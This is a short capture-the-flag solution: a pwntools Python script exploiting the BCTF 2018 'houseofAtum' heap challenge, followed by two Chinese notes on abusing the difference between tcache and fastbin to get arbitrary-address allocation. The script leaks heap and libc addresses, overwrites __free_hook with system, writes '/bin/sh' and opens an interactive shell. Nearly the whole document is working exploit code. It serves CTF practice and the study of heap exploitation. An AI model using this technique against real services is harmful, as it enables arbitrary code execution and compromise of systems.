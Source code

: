 ```python
binary=ELF("./houseofAtum")
add()#0
add()#1
free(1,1)
free(0,1)
add("\x0a")
#context.log_level='debug'
show(0)
p.readuntil("tent:\n")
heap=u64(("\x00"+p.readline()[:-1]).ljust(8,'\x00'))-0x200
log.warning("heap>%s",hex(heap))
free(0,1)
add(p64(0x21)*7+p64(0x61)+p64(heap+0x250))
add()
for x in range(7):
	free(0)
free(1,1)

free(0,1)
add('0')
add('0')
free(1,1)
add(p64(0)+p64(0x91))
for x in range(7):
	free(0)
free(0,1)
edit(1,"A"*16)
show(1)
p.readuntil("A"*16)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dcfca0-0x00007ffff79e4000)
log.warning(hex(base))
binary=ELF("./houseofAtum")
libc=binary.libc
libc.address=base
edit(1,p64(0)+p64(0x51)+p64(0))
add(p64(0xcafebabe))
free(0,1)
edit(1,p64(0)+p64(0x61)+p64(libc.symbols['__free_hook']))
add(p64(0))
free(0,1)
add(p64(libc.symbols['system']))
edit(1,"/bin/sh")
cmd(3)
p.sendlineafter("idx:","1")
p.sendline("clear")
p.interactive("\033[1;31;40m n132>>> \033[0m")
```
# .

* 利用tcache 与fast bin 存放chunk的差异 把任意地址放进tcache
* 一定程度上的任意地址写

[1]:https://changochen.github.io/2018-11-26-bctf-2018.html
